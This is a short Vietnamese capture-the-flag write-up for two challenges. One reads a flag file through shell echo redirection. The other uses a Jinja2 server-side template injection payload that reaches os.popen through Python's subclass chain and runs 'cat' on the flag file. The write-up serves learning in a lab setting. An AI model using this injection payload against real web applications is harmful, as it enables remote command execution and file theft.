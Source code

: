 # Misc 
  ## 1.Dodge
   Dùng echo để xem nội dung của file flag.txt : **echo$(<flag.txt)**
   
   <img src="https://i.imgur.com/Uklgpej.png" />
   
# Web
  ## 2.Nothingness
  
  Do web được viết từ Flask nên có thể inject được payload sau để xe flag được giấu trong flag_HKOOS2lrdD.txt
  
  Payload :
  
  ```python
  {{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat ../flag_HKOOS2lrdD flag_HKOOS2lrdD").read()}}
  ```
  
  Flag của bài :
  
  <img src="https://i.imgur.com/wqdA38j.png" />